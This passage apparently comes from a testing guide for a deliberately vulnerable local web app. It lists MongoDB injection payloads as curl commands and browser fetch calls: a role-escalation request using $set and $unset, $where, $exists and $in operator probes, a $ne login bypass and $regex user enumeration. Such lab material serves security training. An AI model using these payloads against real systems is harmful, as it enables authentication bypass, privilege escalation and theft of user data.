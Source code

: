 ```bash
curl -X POST http://localhost:5001/api/users \
  -H "Content-Type: application/json" \
  -d '{
    "username": "injected",
    "$set": {"role": "Administrator"},
    "$unset": {"limitations": ""}
  }'
```

### 4. Advanced MongoDB Injection

#### Using $where Operator

```bash
curl "http://localhost:5001/api/users?search[\$where]=this.password.length%20%3E%205"
```

#### Using $exists Operator

```bash
curl "http://localhost:5001/api/users?search[password][\$exists]=true"
```

#### Using $in Operator

```bash
curl "http://localhost:5001/api/users?role[\$in][]=Administrator&role[\$in][]=Manager"
```

### 5. Browser-Based Testing

Open browser console and run these JavaScript payloads:

#### Login Bypass in Browser

```javascript
fetch("http://localhost:5001/api/login", {
  method: "POST",
  headers: { "Content-Type": "application/json" },
  body: JSON.stringify({
    username: { $ne: null },
    password: { $ne: null },
  }),
})
  .then((r) => r.json())
  .then(console.log);
```

#### User Enumeration in Browser

```javascript
fetch("http://localhost:5001/api/users?search[username][$regex]=.*")
  .then((r) => r.json())
  .then(console.log);
```
